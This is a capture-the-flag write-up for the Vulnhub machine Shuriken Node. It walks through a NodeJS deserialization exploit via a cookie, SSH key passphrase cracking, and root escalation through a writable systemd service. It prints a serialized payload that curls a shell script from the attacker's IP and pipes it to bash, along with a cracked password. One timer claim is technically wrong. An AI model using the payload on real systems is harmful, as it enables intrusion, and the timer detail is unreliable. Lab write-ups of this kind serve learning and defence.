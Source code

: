 ```yaml
---
title: Shuriken Node Writeup [Vulnhub]
tags: [Vulnhub, NodeJS, Systemd]
image: /assets/images/shurikennode/shurikennode.png
published: true
banner: false
---
```


Shuriken Node is a Linux based machine created by TheCyb3rW0lf, it is the second machine on his series of [Shuriken](https://www.vulnhub.com/series/shuriken,403/), we will get access to this machine exploiting a NodeJS deserealization vulnerability, find the ssh key of another using lying on the system, bruteforce the password of that key using john, and escalate privileges manipulating a service configuration file on which we have total privileges.

# [](#header-1)Enumeration

First we use arp-scan to find the IP of the machine on our network.

![](assets/images/shurikennode/arpscan.png)

We see that the machine is the 192.168.56.10, so we use nmap to find the open ports and then make a deeper scan on those ports.

```
nmap -p- -Pn -n -T 4 192.168.56.10
nmap -sC -sV -p 22,8080, -Pn -o scan.txt 192.168.56.10

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 85:67:c9:bb:4b:ec:68:75:ea:37:b1:74:42:aa:02:a0 (RSA)
|   256 38:49:9a:87:63:f5:5b:5f:ac:0e:70:5d:68:7c:63:de (ECDSA)
|_  256 0b:22:59:fb:44:ee:b2:8f:a5:75:b2:45:70:1a:b9:ec (ED25519)
8080/tcp open  http    Node.js Express framework
|_http-title: Shuriken &ndash; Your reliable news source &ndash; Try Now!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only two ports, SSH and a page on NodeJS so we go and check it.

![](assets/images/shurikennode/webpage.png)

# [](#header-1)Gaining Access

The webpage is a kind of blog and we see that it talks about NodeJS vulnerabilities, we check the request with Burp, and we see that a cookie is set.

![](assets/images/shurikennode/cookie.png)

It looks like it is base64 encoded, and when we decode it we get `{"username":"Guest","isGuest":true,"encoding": "utf-8"}`, there is two interesting values, "isGuest" and "username", if we find a site where we can't access we could try to manipulate those values to gain access. If we go to the page we se that there is the message, "Welcome, guest", so let's see if that value if reflected when we modify the coookie, so let's replace it with, `{"username":"5ubterranean","isGuest":true,"encoding": "utf-8"}`

![](assets/images/shurikennode/pageedited.png)

As we expected the value is reflected, so we know that the values inside the cookie are procesed, the page talks about NodeJS vulnerabilities, and since json is being processed we can be in front of a NodeJS deserealization vulnerability, we search about it and find an [article](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e) that looks like exactly like this scenario. The article proposes a reverse shell using named pipes and a nc version that doesn't support "-e" option, I rather use curl to request a reverse shell and pipe it to bash, so I write a file called "shell.sh" which contains a bash reverse shell command, and host it with `python3 -m http.server`, then modify the code so it requests my file, and after executing the file we get the serialized value:
```
Serialized: 
{"test":"_$$ND_FUNC$$_function(){\n  require('child_process').execSync(\"curl 192.168.56.130:8000/shell.sh | bash\", {});\n}"}
```

We add the serialized string to the cookie (don't forget to add the "()" at the end so it gets executed), encode it with base64 and use repeater to send it to the target server.

![](assets/images/shurikennode/burprepeater.png)

We don't get an answer, so we check our listeners and we see that the reverse shell file was requested and we have a shell to the machine.

![](assets/images/shurikennode/httpserver.png)
![](assets/images/shurikennode/shell1.png)

# [](#header-1)Lateral Movement

After enumrating the system for a while we put our attention on the other user that has access to the machine, "serv-adm", so we search for any file that belongs to him, we find a file called ssh-backup.zip that contains his ssh key.

![](assets/images/shurikennode/sshkey.png)

We copy the key to our machine and find out that it requires a password, so we use ssh2john and john to figure out the password.

![](assets/images/shurikennode/keybruteforce.png)

The password is "shuriken1995@", so now we can connect as serv-adm through ssh.

![](assets/images/shurikennode/shell2.png)

# [](#header-1)Privilege Escalation

We check what we can run as root, and we see that we can start and stop the service "shuriken-auto.timer", and reload the daemon.

![](assets/images/shurikennode/sudol.png)

Services are defined by systemd files, which are located at /etc/systemd/system, so we go there to check what exactly that service does, we see that we own the file corresponding to that service, and also there is another file "shuriken-job.service".

![](assets/images/shurikennode/shurikenservices.png)

To understand what those files do we can read some blogs and overall the man of [timer](https://man7.org/linux/man-pages/man5/systemd.timer.5.html), [unit](https://man7.org/linux/man-pages/man5/systemd.unit.5.html) and [service](https://man7.org/linux/man-pages/man5/systemd.unit.5.html). So the service that we can start ends on .timer, this is a service that executes another services we can't actually put commands here to be ran, so let's see what it does.
```
[Unit]
Description=Run Shuriken utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=shuriken-job.service

[Install]
WantedBy=basic.target
```

It has two timers stablished, the first one runs on boot, and the other one runs every 30 minutes (it doesn't run every 30 minutes from boot time, but when the clock hits 30 and 0), what it happens at those times is that "shuriken-job.service" is started, so let's see what it does.
```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=shuriken-auto.timer

[Service]
# Gather system statistics
Type=oneshot
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```
There is only two important things to notice, if shuriken-auto.timer isn't running this service won't start, and what it does is to run /bin/df. Besides reading the manual to understand what those files do we can start the service and see what it tells us.

![](assets/images/shurikennode/systemctlstatus.png)

As we see we get the description of the service, the service is running but waiting, and that the trigger will occur on 23 minutes, so to exploit this first we need to create a file with a reverse shell code and make it executable, I do it on the tmp folder and call it "rev", then we edit shuriken-job.service so it runs our reverse shell instead of df (use absolute path to the file), after that we don't want to wait 30 minutes to get our shell so we modify shuriken-auto.timer to make it run every minute, to do that we change `*:0/30` to `*:0/60`, finally we reload the daemon and restart the service, if you are testing changes without knowing if they will work is better to do everything in one line, `sudo systemctl daemon-reload; sudo systemctl stop shuriken-auto.timer; sudo systemctl start shuriken-auto.timer`, with that when the service is ran we will get a shell as root.

![](assets/images/shurikennode/shell3.png)

# [](#header-1)Final Thoughts

Deserealization is a serius problem, so if you really need to serialize data make sure to check everything that comes serialized, also there is nothing wrong with writing services files, but the files should be owned by root, also if there is no need to them to be ran as root you can specify as which user you want them to run.
